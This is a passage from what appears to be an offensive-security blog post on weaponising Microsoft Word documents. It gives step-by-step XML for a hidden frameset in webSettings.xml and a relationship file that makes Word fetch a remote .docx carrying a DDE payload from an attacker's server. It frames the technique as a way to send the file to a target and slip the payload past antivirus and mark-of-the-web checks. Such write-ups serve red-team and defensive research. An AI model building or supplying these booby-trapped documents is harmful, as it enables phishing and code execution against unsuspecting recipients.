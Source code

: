 For this, we can abuse another legacy feature (aren't these great). At one point in time Word was billed as a one-stop shop for anything text related, this included creating web pages. Word was an IDE for HTML at one point, the HTML was never pretty but it worked. One of the things introduced around this time was the idea of **frames** and **framesets**. Frames allowed you to load different HTML/Text pages into frames within Word, the HTML was automatically parsed and turned into Word formated content. This functionality seems to have been removed from the UI in Word 2016 (possibly earlier as well), but the underlying parsing routines still remain. This means if you create a document with embedded frames, Word will still process them for you.

To insert a frameset you need to go back to editing a clean .docx. First unzip and then open **webSettings.xml**. You then want to modify add the new XML enlement **frameset**:
```
<w:frameset>
    <w:framesetSplitbar>
        <w:w w:val="60"/>
        <w:color w:val="auto"/>
        <w:noBorder/>
    </w:framesetSplitbar>
    <w:frameset>
        <w:frame>
            <w:name w:val="1"/>
            <w:sourceFileName r:id="rId1"/>
            <w:linkedToFile/>
        </w:frame>
    </w:frameset>
</w:frameset>
```
This should go inside the existing ```<w:webSettings>``` element, right before the ```<w:optimizeForBrowser/><w:allowPNG/>``` elements. Next you'll need to add **rId1** the relationship that links our document to the external document. 
This is done by adding a new file to `word/_rels/` called, `webSettings.xml.rels`.

The contents of this file should be:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships 
    xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="http://x.x.x.x/simple.docx" TargetMode="External"/>
</Relationships>
```
Where your target is the .docx file containing the DDE. In this case we are going to load the simple.docx file from the http server at *x.x.x.x*. Save the all the modified/created files, and update the .docx archive. Now you can send the modified file document to your target and they will open it. Because it has the *mark of the web* this will be opened in protected view. However, because Word detects that external content is required for the file to display correctly, the contents will be displayed as: "Linked files and other functionality has been disabled. To restore this functionality, you must Edit this file." - note that this is the default message from Word, we have no control over this.

![Protected View](/assets/externalframe_pv.png)

As soon as Protected View is disabled, Word will download the external document containing our DDE. This does not receive the "mark of the web" and is parsed by Word, triggering the normal DDE messages. This is a pretty useful way of smuggling our DDE payload in without getting scanned by AV. 

